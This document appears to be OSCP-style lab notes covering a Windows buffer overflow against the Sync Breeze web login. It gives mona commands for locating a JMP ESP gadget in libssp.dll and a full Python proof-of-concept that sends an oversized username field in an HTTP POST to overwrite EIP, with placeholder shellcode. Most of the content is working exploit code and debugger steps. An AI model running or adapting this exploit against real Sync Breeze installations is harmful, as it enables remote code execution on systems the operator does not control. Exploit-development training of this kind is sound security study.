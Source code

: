 11.2.7.1

# 11.2.7.1
## 11.2.7.1.1. Locate the JMP ESP that is usable in the exploit.

Run `!mona modules` to see the different modules used. We see the syncbrs.exe and libssp.dll has SEH, ASLR, and NXCompat disabled. However, syncbrs.exe will always contain null characters because it loads at 0x004XXXXX address.

### We will use libssp.dll because its address range won’t always contain bad characters 0x10000000
![43e68a2ff19411bd5ae1db8d60dded06.png](../../../_resources/6a8585efd7d64c76b73432f52d25da4f.png)

### Find the opcode equivalent of JMP ESP using msf-nasm_shell commands. We see the code is FFE4
![1cca3222fdb51ac5a6e509bb9a324a1c.png](../../../_resources/c491d586511245708df1317f6cdf0d3d.png)

### Now use mona.py to find  an address. We will input the following line:
`!mona find -s "\xff\xe4" -m "libspp.dll"`
![b24b4ea9ec82adf3b9795df26ddef2e8.png](../../../_resources/ee6aa0976bf847be921c55f720e2c88d.png)


## 11.2.7.1.2. Update your PoC to include the discovered JMP ESP, set a breakpoint on it, and follow the execution to the placeholder shellcode.

Enter the expression to follow (ie. the JMP ESP address) and set a breakpoint (press F2) on that address.
![b851c7d5ae3f2dab0b932edb040f9b18.png](../../../_resources/6d3793ab083d400eaa445e890beabb07.png)


### Here is the code with the JMP ESP added in
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 8_eip_jmp_esp.py 
#!/usr/bin/python
import socket
import sys

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
    
    inputBuffer = filler + eip + offset + buffer
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

### The crash. EIP is 10090C83
![8c9a83f57a04ee6891b6c30cfaa25d70.png](../../../_resources/528e6f08914e454e9591dd40a124fd30.png)